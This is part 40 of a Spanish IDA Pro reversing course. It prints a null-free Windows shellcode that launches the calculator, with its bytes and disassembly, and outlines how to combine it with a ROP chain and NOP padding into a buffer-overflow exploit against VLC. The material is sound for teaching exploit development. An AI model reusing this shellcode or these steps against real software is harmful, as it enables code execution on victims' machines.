





← Índice de los 69 tutes de IDA
Tute 40 · Shellcode
se conecta con: Vulnerabilidades (defensivo)
INTRODUCCIÓN AL REVERSING CON IDA PRO DESDE CERO PARTE 40.
SHELLCODE UNIVERSAL
NOTA: En alguna versión moderna de Windows 10 puede haber dejado de funcionar.
Existen miles de tipos de shellcodes, cada uno de acuerdo al objetivo que se tiene al hacer el exploit.
Hay shellcodes que son para probar que se puede ejecutar código después de la explotación, normalmente estos ejecutan una calculadora y nada más.
Obviamente hay shellcodes mucho más complejos que abren consolas remotas, tratan de permanecer en el sistema a pesar de que el programa explotado crashee o se cierre, inyectándose en algún otro proceso del sistema, guardándose como archivo etc.
Hay una biblioteca de shellcodes que buscando en Google podemos encontrar o podríamos programar si necesitamos algo especifico.
Nosotros usaremos a partir de ahora un SHELLCODE UNIVERSAL que sirve para todas las versiones de Windows y que ejecuta la calculadora, con eso demostraremos ejecución de código.
El mismo salio de aquí.
https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html
shellcode="\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b"\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"
Así como esta lo puedo usar en un script de Python siempre y cuando tenga lugar en la memoria para ingresarlo.
Los bytes sueltos son:
31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08 8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c 8b" 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01 c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65 73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01 c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63 61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff d7
MOV EDI,DWORD PTR FS:[EBX+30] XOR EBX,EBX MOV EDI,DWORD PTR DS:[EDI+C] MOV EDI,DWORD PTR DS:[EDI+1C] MOV EAX,DWORD PTR DS:[EDI+8] MOV ESI,DWORD PTR DS:[EDI+20] MOV EDI,DWORD PTR DS:[EDI] CMP BYTE PTR DS:[ESI+C],33 JNZ SHORT CANARY_c.00A7138A MOV EDI,EAX ADD EDI,DWORD PTR DS:[EAX+3C] MOV EDX,DWORD PTR DS:[EDI+78] ADD EDX,EAX MOV EDI,DWORD PTR DS:[EDX+20] ADD EDI,EAX MOV EBP,EBX MOV ESI,DWORD PTR DS:[EDI+EBP*4] ADD ESI,EAX INC EBP CMP DWORD PTR DS:[ESI],61657243 JNZ SHORT CANARY_c.00A713A9 CMP DWORD PTR DS:[ESI+8],7365636F JNZ SHORT CANARY_c.00A713A9 MOV EDI,DWORD PTR DS:[EDX+24] ADD EDI,EAX MOV BP,WORD PTR DS:[EDI+EBP*2] MOV EDI,DWORD PTR DS:[EDX+1C] ADD EDI,EAX MOV EDI,DWORD PTR DS:[EDI+EBP*4-4] ADD EDI,EAX MOV ECX,EBX MOV CL,0FF PUSH EBX
LOOPD SHORT CANARY_c.00A713D8
PUSH 636C6163 MOV EDX,ESP PUSH EDX PUSH EDX PUSH EBX PUSH EBX PUSH EBX PUSH EBX PUSH EBX PUSH EBX PUSH EDX PUSH EBX CALL EDI
Eso ejecuta la calculadora en cualquier lugar que lo peguemos, tiene de bueno que no tiene ceros, aunque puede haber programas que rechacen algún otro carácter, eso dependerá del caso.
Ya sabemos hacer ROP y ya tenemos un shellcode universal, la idea es que practiquen con el programa VLC que dejamos hecho el POC, me haría muy feliz que alguno me mande el archivo completo y un tute explicando lo que hicieron, lo agregaría aquí como una parte, al primero que envíe al exploit con un tuto bien explicado.
El rop lo pueden hacer a mano o con mona no hay problema deben buscar a ver si hay dlls sin ASLR y si hay más de una sin ASLR, el mona tiene para pasar más de una dll como argumento, para armar el ROP combinando ambas.
En cuanto al script de Python les daré un esquema una vez que arman el ROP, abren el archivo POC.ty+

Y buscan el 41424344 que quedaba pisando el RETURN ADDRESS.

Y ahí según el largo del ROP +SHELLCODE pongamos como ejemplo que el ROP y SHELLCODE miden 150 bytes, reemplazo una zona un poco mayor a partir del 41424344 incluido él mismo pongámosle 160 bytes.
Voy marcando hacia abajo hasta que obtengo la zona marcada del largo que necesito.

Relleno la zona seleccionada con 90s.

Chequeo bien el largo de la zona de 90s, que sea mayor al largo de ROP más SHELLCODE y que sea un valor conocido, lo anoto en mi caso 160.

Ahí hay un esquema del script no está probado ni nada, no funcionara, no tiene definido el ROP ni el SHELLCODE, pueden usar el SHELLCODE UNIVERSAL que acabamos de ver si no hay problemas con ningún carácter sino deberán buscar otro.
La idea es que el script abre el archivo con los 90, los reemplaza como una fruta del mismo largo que contiene al inicio el ROP y el SHELLCODE y relleno, y luego lo guarda para probarlo, si funciona será el exploit, sino habrá que tracear a ver que falla, jeje.
La verdad me pondría muy contento y vería que tanto escribir no es inútil, si alguien hace un tute y manda el exploit funcional.
El primero que envíe lo pondré como parte del curso, si hay más de uno los subiré dentro de la carpeta SOLUCIONES del curso que creare para esto en las webs (si es necesario jeje)
Hasta la parte 41 a ver si practican y hallan una solución.
Ricardo Narvaja